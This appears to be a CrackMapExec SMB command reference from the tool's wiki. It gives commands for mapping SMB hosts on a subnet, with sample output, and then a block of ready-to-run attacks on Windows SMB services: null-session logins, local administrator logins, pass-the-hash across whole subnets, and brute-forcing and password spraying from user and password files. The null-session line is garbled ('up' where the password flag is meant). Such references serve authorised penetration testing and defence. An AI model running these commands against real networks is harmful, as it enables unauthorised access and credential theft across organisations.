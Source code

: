 # SMB: Command Reference

Notes about command reference:  
The following use cases assume you have a Kali Linux host connected to an internal network.  
For the examples it is also assumed hosts are within a 192.168.1.0/24 IP space. If CME isnt giving output of anykind, you probably have something wrong with the command.

---

# Mapping/Enumeration

[Mapping/Enumeration](https://github.com/byt3bl33d3r/CrackMapExec/wiki/SMB-Command-Reference#mappingenumeration)
## Map network hosts


```
#~ cme smb 192.168.1.0/24
```

Expected Results:

```
SMB         192.168.1.101    445    DC2012A          [*] Windows Server 2012 R2 Standard 9600 x64 (name:DC2012A) (domain:OCEAN) (signing:True) (SMBv1:True)
SMB         192.168.1.102    445    DC2012B          [*] Windows Server 2012 R2 Standard 9600 x64 (name:DC2012B) (domain:EARTH) (signing:True) (SMBv1:True)
SMB         192.168.1.110    445    DC2016A          [*] Windows Server 2016 Standard Evaluation 14393 x64 (name:DC2016A) (domain:OCEAN) (signing:True) (SMBv1:True)
SMB         192.168.1.117    445    WIN10DESK1       [*] WIN10DESK1 x64 (name:WIN10DESK1) (domain:OCEAN) (signing:False) (SMBv1:True)

```

## Connections and Spraying
```bash
Connexions & Spraying

# Target format
crackmapexec smb ms.evilcorp.org
crackmapexec smb 192.168.1.0 192.168.0.2
crackmapexec smb 192.168.1.0-28 10.0.0.1-67
crackmapexec smb 192.168.1.0/24
crackmapexec smb targets.txt

# Null session
crackmapexec smb 192.168.10.1 -u "" up ""

# Connect to target using local account
crackmapexec smb 192.168.215.138 -u 'Administrator' -p 'PASSWORD' --local-auth

# Pass the hash against a subnet
crackmapexec smb 172.16.157.0/24 -u administrator -H 'LMHASH:NTHASH' --local-auth
crackmapexec smb 172.16.157.0/24 -u administrator -H 'NTHASH'

# Bruteforcing and Password Spraying
crackmapexec smb 192.168.100.0/24 -u "admin" -p "password1"
crackmapexec smb 192.168.100.0/24 -u "admin" -p "password1" "password2"
crackmapexec smb 192.168.100.0/24 -u "admin1" "admin2" -p "P@ssword"
crackmapexec smb 192.168.100.0/24 -u user_file.txt -p pass_file.txt
crackmapexec smb 192.168.100.0/24 -u user_file.txt -H ntlm_hashFile.txt
```
